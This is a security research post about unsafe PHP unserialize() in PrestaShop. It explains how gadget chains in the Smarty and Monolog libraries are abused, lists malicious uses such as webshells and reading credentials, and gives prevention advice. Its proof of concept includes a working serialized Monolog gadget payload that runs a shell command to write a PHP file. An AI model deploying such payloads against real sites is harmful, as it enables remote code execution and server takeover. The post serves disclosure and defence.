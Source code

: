 ```yaml
---
layout: post
title: "[CWE-502] Exploring the perils of unsafe deserialize() in PrestaShop (part 1)"
categories: research
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,CWE-502"
severity: "critical (10)"
---
```


The deserialization of instantiated objects in PHP involved the trigger of the magic methods `__construct()`, `__wakeup()` and `__destruct()`. 

A Smarty, Monolog or Symfony library's [Gadget](https://en.wikipedia.org/wiki/Gadget_(computer_science)) hydratation with a malicious payload followed by its deserialization can be exploited in multiple malicious critical usages.

Until this present research, we did not have any known gadget on our ecosystem that can justify a CVE against `unserialize` usage.

## Summary

* **Published at**: 2023-08-28
* **Platform**: All CMS espacially PrestaShop.
* **Weakness**: [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
* **Severity**: critical (10)

## Unsafe PHP method deserialize() (part 1)

### How it works?

Let's take an example. The `Smarty` template engine cache process is scheduled to create a lock file at the beginning and remove it at the end during the destruct of `Smarty`'s object. 

A Gadget of this object, a sort of "mockup" of the original class, can be crafted with a target file as parameter. Then, it will remove the target during the deserialization of the Gadget. `Smarty` cache class can be hijacked to delete any files of the vulnerable application.

Please read this article to know more about [unsafe unserialize() in PHP](https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/).


### Proof of concept

Similarly, the popular library `Monolog` can be hijacked to execute remote code. Let’s explain it in a POC.

We created a simple module to demontrate the danger of a deserialization. Please note that any php script that include PrestaShop core file `config/config.inc.php` load vendors libraries and consequently `Monolog` (PS 1.7+) or others libraries.

**FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THIS SCRIPT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.**

1. Create a module

```php
// modules/mymodule/mymodule.php

class Mymodule
{
...
    public function getContent()
    {
        $payload = 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{s:13:"passthruLevel";i:0;s:6:"buffer";a:1:{s:4:"test";a:2:{i:0;s:45:"echo \'<?php echo "♥" . (25-125);\' > ./a.php";s:5:"level";N;}}s:7:"handler";O:29:"Monolog\Handler\BufferHandler":7:{s:7:"handler";N;s:10:"bufferSize";i:-1;s:6:"buffer";N;s:5:"level";N;s:11:"initialized";b:1;s:11:"bufferLimit";i:-1;s:10:"processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}';

        $unsafeDeserialization = unserialize($payload);

        return var_dump($unsafeDeserialization, true);
    }
...
```

2. Go to the configuration page of the module.

3. This piece of code will put an `a.php` file in the designated directory of PrestaShop.


### Malicious usage through PrestaShop dependencies

Malicious usages of PrestaShop via common libraries are:
* remote code execution (RCE) to put a webshell
* Server Side Request Forgery (SSRF) to aggress other website with a clean IP
* File Deletion (FD) to remove an htaccess and expose logs or sensitive data
* File Writer (WF) to put a webshell
* Files read reader (RF) to read sensitive data like mysql password
* SQL injections (SQLi)
* Technical data leaks (Info)

|PrestaShop dependency|Malicious usage|
| ------|-----|
|Smarty|SSRF and FD|
|Monolog|RCE and FW|
|Symfony|FD, FW, and RCE|
|Doctrine|RCE and FW|
|TCPDF|FD|
|Guzzle|FW, Info and RCE|

Source: [PHP Generic Gadget Chains](https://github.com/ambionics/phpggc/tree/master/gadgetchains)

NB 1: This list is not exhaustive. Module dependencies can also include other hijackable classes.

NB 2: Several PrestaShop core or modules configurations are stored in database as serialized strings. In chain, a SQL injection can also be exploited to inject malicious serialized string that will be triggered during the deserialization.


### How to prevent this vulnerability?

As you understand, `unserialize($_GET['param'])` (or `$_POST`, `$_COOKIE`, ...), each **untrusted data unserialized is a critical vulnerability**. 

* A strict validation of input data is absolutely essential!
* Use json serialization instead as soon as possible : `json_encode` and `json_decode`
* Disable the deserialization of classes via `unserialize($args, ['allowed_classes' => false])`. That's not perfect but better than nothing.


